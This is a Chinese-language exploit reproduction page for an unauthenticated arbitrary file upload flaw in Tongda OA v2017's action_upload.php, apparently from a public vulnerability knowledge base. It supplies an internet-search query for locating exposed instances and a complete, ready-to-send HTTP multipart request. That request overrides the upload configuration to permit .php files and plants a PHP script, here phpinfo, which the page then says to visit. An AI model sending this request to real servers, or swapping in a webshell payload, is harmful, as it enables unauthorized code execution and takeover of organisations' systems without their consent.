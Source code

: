 # 通达OA v2017 action_upload.php 任意文件上传漏洞

## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>通达OA v2017</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

访问获取版本信息

![img](../../../.vuepress/public/img/1628301733285-a06c056e-4c78-4b77-bb05-bb01fef71ebc.png)

发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](../../../.vuepress/public/img/1628301944004-f70c17d1-14fa-4653-9888-720876947b7d.png)

再访问上传的文件 

![img](../../../.vuepress/public/img/1628301997079-6703e75c-6115-4f8a-a455-3e53054ce34a.png)